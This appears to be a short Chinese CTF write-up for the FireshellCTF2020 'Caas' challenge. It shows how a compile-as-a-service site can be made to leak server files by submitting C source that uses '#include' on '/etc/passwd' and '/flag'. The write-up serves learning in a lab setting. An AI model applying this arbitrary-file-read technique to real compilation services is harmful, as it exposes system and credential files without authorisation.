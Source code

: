 ```yaml
---
title: '[FireshellCTF2020]Caas'
date: 2024-08-04 20:03:52
tags: 题解
categories: 刷题笔记
---
```


### [FireshellCTF2020]Caas（任意文件读取）

打开网站，我们随便输点啥，出现了一个报错

![image-20240804232626637](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408042326735.png)

我们把报错放到浏览器里搜索，发现是c语言的编译错误

<!--more-->![image-20240804232706917](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408042327020.png)

我们写个c语言程序

```
#include<stdio.h>
int main(){
printf("hellow world");
}
```

跳出来个下载页面

![image-20240804232856525](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408042328576.png)

查看，是程序输出的结果

![img](https://i-blog.csdnimg.cn/blog_migrate/986a7257722f57361846695a4a81f745.png)

由于c语言存在的include，我们考虑任意读取漏洞

```
#include "/etc/passwd" 
```

![image-20240804233213666](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408042332738.png)

我们直接读取/flag,得到flag

```
#include "/flag" 
```

![image-20240804233250182](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202408042332269.png)
